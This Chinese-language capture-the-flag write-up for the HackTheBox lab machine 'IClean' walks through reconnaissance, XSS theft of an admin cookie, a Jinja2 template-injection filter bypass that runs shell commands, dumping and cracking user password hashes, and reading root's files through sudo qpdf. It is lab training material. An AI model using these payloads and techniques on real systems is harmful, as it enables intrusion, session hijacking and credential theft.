










# \[level:Medium] IClean

## 一 、信息收集

| 靶机信息 |                       |
| ---- | --------------------- |
| IP   | 10.129.99.246         |
| 域名   | http://capiclean.htb/ |

### 1.1 nmap扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ nmap -Pn 10.129.99.246
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-10 22:50 CST
Nmap scan report for capiclean.htb (10.129.99.246)
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 122.72 seconds
```

### 1.2 url目录扫描结果

```
┌──(a1ertx5s㉿kali)-[~]
└─$ dirsearch -u http://capiclean.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/a1ertx5s/reports/http_capiclean.htb/__24-04-10_23-08-03.txt

Target: http://capiclean.htb/

[23:08:03] Starting: 
[23:09:40] 200 -    5KB - /about
[23:12:01] 302 -  189B  - /dashboard  ->  /
[23:13:22] 200 -    2KB - /login
[23:13:25] 302 -  189B  - /logout  ->  /
[23:14:45] 403 -  278B  - /server-status
[23:14:46] 403 -  278B  - /server-status/
[23:14:46] 200 -    8KB - /services

Task Completed
```

扫描结果没啥用, 就一个dashboard值得关注.

### 1.3 指纹信息

<figure><figcaption></figcaption></figure>

开发框架是Flask,猜测漏洞为模板注入.

### 二、渗透过程

### 2.1 XSS获取管理员cookie

随便逛逛可以发现有一个quote页面,页面可以给管理员留言,尝试是否存在xss,能否利用xss获取管理员cookie.

<figure><figcaption><p>burp suite 抓包</p></figcaption></figure>

其中exp是url encode过的.

```html

```

可以使用python3的http server进行cookie的捕获,结果如下

```
┌──(a1ertx5s㉿kali)-[~]
└─$ python3 -m http.server 959
Serving HTTP on 0.0.0.0 port 959 (http://0.0.0.0:959/) ...
10.129.99.246 - - [10/Apr/2024 23:21:57] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhaHiw.vNyGcFEurcPrFcHAjqEJsNVRkFo HTTP/1.1" 200 -
```

成功获取cookie, 将cookie加入到header中,再去访问dashboard.

<figure><figcaption></figcaption></figure>

成功进入到dashboard页面.

### 2.2 Flask SSTI 反弹shell

开发框架是Flask,猜测漏洞为模板注入.

在Generate invoice下生成一个id,然后到Gnerate QR下尝试.

<figure><figcaption></figcaption></figure>

可以发现qr\_link字段存在模板注入.一般的模板注入在这里是失效的,应该是存在黑名单之类的过滤手段,这里使用resquet和attr组合进行绕过,exp如下:

```
{{ request | attr("application") | attr("\x5f\x5fglobals\x5f\x5f") | attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os") | attr("popen")("uname -a") | attr("read")() }}
```

<figure><figcaption></figcaption></figure>

接下来就利用这个注入点反弹shell,需要进行url encode.

<figure><figcaption></figcaption></figure>

成功获取www-data权限,查看app.py文件,发现数据库相关信息.

<figure><figcaption></figcaption></figure>

连接数据库,在user表下发现账号以及口令的hash值.

```
select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
```

爆破得出结果, 密码是 simple and clean

<figure><figcaption></figcaption></figure>

ssh 登录,获得user flag.

<figure><figcaption></figcaption></figure>

### 2.3 sudo提权

sudo -l 查看具有root权限的指令.

<figure><figcaption></figcaption></figure>

有一个qpdf程序有root权限,去google一下这个指令.

存在以下选项,可以向一个文件中添加附件.

<figure><figcaption></figcaption></figure>

```
sudo /usr/bin/qpdf --empty ./root.txt --add-attachment /root/root.txt --
```

<figure><figcaption></figcaption></figure>

发现其中root.txt的部分出现了乱码.

再度查看qpdf的文档,发现存在qdf指令,可以使pdf可用text进行查看.

<figure><figcaption></figcaption></figure>

```
sudo /usr/bin/qpdf --qdf --empty ./root.txt --add-attachment /root/root.txt  --
```

成功获取root flag.

<figure><figcaption></figcaption></figure>
